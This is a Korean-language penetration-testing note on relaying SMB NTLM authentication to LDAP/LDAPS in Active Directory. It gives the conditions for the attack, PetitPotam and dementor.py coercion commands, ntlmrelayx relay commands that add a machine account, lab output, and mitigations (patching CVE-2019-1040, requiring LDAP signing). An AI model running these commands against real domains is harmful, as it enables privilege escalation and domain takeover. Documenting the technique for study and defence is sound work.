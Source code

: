 # SMB to LDAP/S

강제 인증, LLMNR/NBT-NS 기반의 NTLM 릴레이 공격은 피해자 서버로부터 SMB 인증 트래픽을 받아 타겟 서버의 LDAP 서비스로 릴레이 한다. 이때 공격자는 액티브 디렉토리의 LDAP 정보 덤프, 컴퓨터 계정 추가, Delegation 등을 통한 권한 상승 공격을 진행할 수 있다.

단, SMB to SMB 에 비해 SMB to LDAP(S) 는 필요 조건들이 더 많다. 따라서 webdav, mitm6, 혹은 wpad 릴레이를 통한 HTTP to LDAP(S) 가 더 자주 사용되는 편이다. 그러나 SMB to LDAP(S) 또한 공격에 성공할 경우 도메인 진입 혹은 도메인 장악이 가능하기 때문에 주의가 필요하다.

### 조건

* NTLMv2 SMB -> LDAP: 타겟이 CVE-2019-1040에 취약 + LDAP Signing - Enabled/Disabled (Required 면 불가능)
* NTLMv2 SMB -> LDAPS: 타겟이 CVE-2019-1040에 취약 + EPA Disabled (LDAP Signing 은 enabled/disabled/required 상관 없이 가능)
* NTLMv1 SMB -> LDAP: LDAP Signing Enabled/Disabled (Required 면 불가능). 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.
* NTLMv1 SMB -> LDAPS: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.

### NTLMv2 SMB -> LDAP(S)

#### 트리거 - 강제 인증 - Petitpotam

```
python3 PetitPotam.py -u '' -p '' 192.168.40.132 192.168.40.150
```

#### 트리거- LLMNR/NBT-NS 포이즈닝

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.

#### 릴레이 - CVE-2019-1040에 취약할 경우

```
impacket-ntlmrelayx -t ldap://192.168.40.160 -smb2support --add-computer --no-dump --no-da --no-acl --no-validate-privs --remove-mic

[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
[*] Authenticating against ldap://192.168.40.160 as CHOI/DC01$ SUCCEED
[*] Adding new computer with username: UAZZYGGM$ and password: lEE_wdrh2JD7T!M result: OK
```

### NTLMv1 SMB -> LDAP(S)

#### 트리거 - 강제 인증 - Print Spooler

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.132 192.168.40.150
```

#### 트리거 - LLMNR/NBT-NS 포이즈닝

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.

#### 릴레이

<pre><code>./ntlmrelayx.py -t ldap://192.168.40.160 -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic

<strong>[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
</strong>[*] Authenticating against ldap://192.168.40.160 as / SUCCEED
</code></pre>

### 대응 방안

1. NTLMv2 - CVE-2019-1040 관련된 패치를 진행한다. 이는 도메인 컨트롤러들의 기본적인 윈도우 패치만 실행하더라도 패치되는 취약점이다.
2. NTLMv2 - LDAP Signing 을 Required 로 설정한다. GPO 를 이용하는 것이 좋다.

`(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
